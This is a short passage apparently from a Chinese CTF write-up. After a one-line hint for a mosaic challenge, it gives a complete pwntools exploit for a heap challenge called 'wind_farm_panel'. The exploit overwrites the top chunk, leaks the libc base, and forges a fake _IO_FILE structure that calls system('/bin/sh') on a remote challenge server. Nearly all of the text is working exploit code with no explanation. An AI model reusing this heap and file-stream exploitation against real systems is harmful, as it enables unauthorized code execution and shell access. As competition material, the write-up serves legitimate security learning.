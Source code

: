 ### 马赛克

Depix直接看


## Pwn

### wind_farm_panel

```python
from pwn import*
def menu(ch):
	p.sendlineafter('>> ',str(ch))
def new(index,size,content):
	menu(1)
	p.sendlineafter(': ',str(index))
	p.sendlineafter('turbine: ',str(size))
	p.sendafter('name: ',content)
def show(index):
	menu(2)
	p.sendlineafter('viewed: ',str(index))
def edit(index,content):
	menu(3)
	p.sendlineafter('turbine: ',str(index))
	p.sendafter('input: ',content)
p = process('./main')
p = remote('182.92.203.154',28452)
libc =ELF('./libc-2.23.so')
new(0,0x200,'\x00'*0x208 + p32(0xDF1))
new(1,0x1000,'FMYY')
new(2,0x100,'\xA0')
show(2)
libc_base = u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00')) - libc.sym['__malloc_hook']  - 0x70 - 0x620
log.info('LIBC:\t' + hex(libc_base))

IO_list_all = libc_base + libc.sym['_IO_list_all']
IO_str_jumps = libc_base + 0x3C37A0
fake_IO_FILE  = p64(0) + p64(0x61)
fake_IO_FILE += p64(0) + p64(IO_list_all - 0x10)
fake_IO_FILE += p64(0) + p64(1)
fake_IO_FILE += p64(0) + p64(libc_base + libc.search('/bin/sh').next())
fake_IO_FILE  = fake_IO_FILE.ljust(0xD8,'\x00')
fake_IO_FILE += p64(IO_str_jumps - 8)
fake_IO_FILE += p64(0) + p64(libc_base + libc.sym['system'])
new(3,0x200,'\x00'*0x200 + fake_IO_FILE)
menu(1)
p.sendline('4')
p.sendline(str(0x200))
p.interactive()
```
